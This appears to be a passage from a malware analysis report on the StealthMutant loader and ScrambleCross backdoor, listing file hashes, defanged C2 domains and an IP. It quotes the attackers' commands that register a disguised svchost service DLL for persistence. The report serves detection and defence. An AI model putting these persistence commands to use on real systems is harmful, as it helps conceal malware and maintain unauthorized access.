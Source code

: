 
wkbem.dll
E7155C355C90DC113476DDCF765B187D
pcomnl.bin
Unknown
Tuesday, 24.03.2020 09:09:21 UTC


wmiwk.dll
899608DE6B59C63B4AE219C3C13502F5
wmipl.dll
ns.glbaitech[.]com
Saturday, 20.02.2021 06:45:18 UTC


c_20344.nls
4EF90CEEF2CC9FF3121B34A9891BB28D
–
217.69.10[.]104
Tuesday, 24.03.2020 09:09:21 UTC


c_20334.nls
CFF2772C44F6F86661AB0A4FFBF86833
–
st.kinopoisksu[.]com
Tuesday, 24.03.2020 09:09:21 UTC



Another loader that we detected and is commonly used to load ScrambleCross is .NET based, referred to as StealthMutant. It works by decrypting a shellcode BLOB with AES-256 and injecting it to the address space of another process. The injected process in every case we observed was msdt.exe (Microsoft Diagnostic Troubleshooting Wizard).
StealthMutant is launched in one of two ways, which were partially described in other reports as well. The first way is by executing a launcher utility with the filename System.Mail.Service.dll (MD5: 5F9020983A61446A77AF1976247C443D) through the command line as a service. This is outlined in the following commands typed by the attackers on one of the compromised systems:





net  start "iscsiwmi"
sc  stop iscsiwmi
sc  delete iscsiwmi
reg  add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost" /v "iscsiwmi" /t REG_MULTI_SZ /d "iscsiwmi" /f
sc  create "iscsiwmi" binPath= "$system32\svchost.exe -k iscsiwmi" type= share start= auto error= ignore DisplayName= "iscsiwmi"
SC  failure "iscsiwmi" reset= 86400 actions= restart/60000/restart/60000/restart/60000
sc  description "iscsiwmi" ""iSCSI WMI Classes That Manage Initiators, Ports, Sessions and Connections""
reg  add "HKLM\SYSTEM\CurrentControlSet\Services\iscsiwmi\Parameters" /f
reg  add "HKLM\SYSTEM\CurrentControlSet\Services\iscsiwmi\Parameters" /v "ServiceDll" /t REG_EXPAND_SZ /d "$windir\Microsoft.NET\Framework64\v4.0.30319\System.Mail.Service.dll" /f
net  start "iscsiwmi"
